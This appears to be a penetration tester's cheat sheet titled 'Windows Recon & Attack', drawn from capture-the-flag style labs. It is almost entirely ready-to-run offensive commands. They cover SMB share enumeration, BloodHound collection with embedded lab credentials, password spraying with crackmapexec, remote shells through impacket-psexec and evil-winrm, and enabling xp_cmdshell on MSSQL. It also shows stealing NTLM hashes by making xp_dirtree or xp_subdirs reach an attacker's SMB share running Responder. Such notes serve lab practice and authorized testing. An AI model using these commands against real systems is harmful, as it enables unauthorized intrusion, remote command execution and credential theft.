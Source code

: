 # Windows Recon & Attack
## Enumeration
### Common
```bash
smbmap -H <IP or hostname> -u null # Test for null access

bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
### Scans
```bash
sudo nmap -p- -sC -sV $IP --open -oA scans/nmap_Initial
```

### Uncredentialed
List Shares
```bash
smbclient -L \\\\<IP or hostname> 
```
smbmap
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
### Credentialed
CME
```bash
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019 --shares
```
smbmap
```bash
smbmap -H <IP or Hostname> -u <user> -p <password>
```
smbclient
```bash
smbclient -U <user> //<host or ip>/<share> <password>
```
Bloodhound-Python
```bash
bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
### Password Spray
CME
```bash
crackmapexec smb 10.10.10.178 -u Usernames.txt -p 'welcome2019' --local-auth --continue-on-success
```
## Remote Shell
### Impacket
Impacket-psexec
```bash
impacket-psexec <user>:<password>@<IP>
```
### Evil-WinRM
```bash
evil-winrm -u <user> -p <password> -i <host or ip>
```
## Attack
### SQL
xp_cmdshell
```powershell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```
Hash Stealing with xp_subdris or xp_dirtree
Start Responder on Attack machine
```powershell
EXEC master..xp_dirtree '\\10.10.110.17\share\'
or
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```
Collect hashes from responder
